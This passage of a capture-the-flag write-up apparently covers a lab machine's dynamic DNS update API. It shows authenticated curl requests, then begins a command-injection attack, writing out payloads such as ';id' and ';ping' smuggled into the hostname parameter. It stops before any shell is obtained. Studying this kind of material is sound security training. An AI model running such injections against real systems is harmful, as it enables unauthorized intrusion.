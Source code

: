     
    
    oxdf@parrot$ curl 'http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=0xdf.no-ip.htb&myip=10.10.14.10'
    good 10.10.14.10
    oxdf@parrot$ dig +short 0xdf.no-ip.htb @10.10.10.244
    10.10.14.10
    

It even works with IPs outside of `10.0.0.0/8`.

If I try to update one of the base domains, it fails:

    
    
    oxdf@parrot$ curl http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=no-ip.htb
    911 [wrngdom: htb]
    

The `wrngdom` message is likely “wrong domain”. If I try a longer one that’s
not one of the listed domains, it fails as well:

    
    
    oxdf@parrot$ curl http://dynadns:sndanyd@10.10.10.244/nic/update?hostname=0xdf.ano-ip.htb
    911 [wrngdom: ano-ip.htb]
    

The “domain” here must be all but the first word before the first `.`.

## Shell as www-data

### Command Injection Strategy

When thinking about how to attack a webserver like this, it’s useful to think
about what server is doing with my input. The way to update a DNS resolution
on Bind is typically with `nsupdate`, which means that the webpage is likely
calling that as a system command, and that leave open the possibility for
command injections.

### Testing API

I’ll start with a couple simple payloads, `;id` (to see if any output came
back) and `;ping -c 1 10.10.14.8` to see if there’s a blind injection. I’ll
also use `curl` with the `--data-urlencode` parameter to pass GET parameters
that it encodes for me.

Both return `wrngdom` errors:

    
    
    oxdf@parrot$ curl -G --data-urlencode 'hostname=;id' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: ]
    oxdf@parrot$ curl -G --data-urlencode 'hostname=;ping -c 1 10.10.14.8' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
    911 [wrngdom: 10.14.8]
    

The first doesn’t give a domain, but the second gives 10.14.8. It looks like
it’s looking for the first `.`, and considering the stuff after it the domain,
just like I noticed above. I can test this, and it looks right:

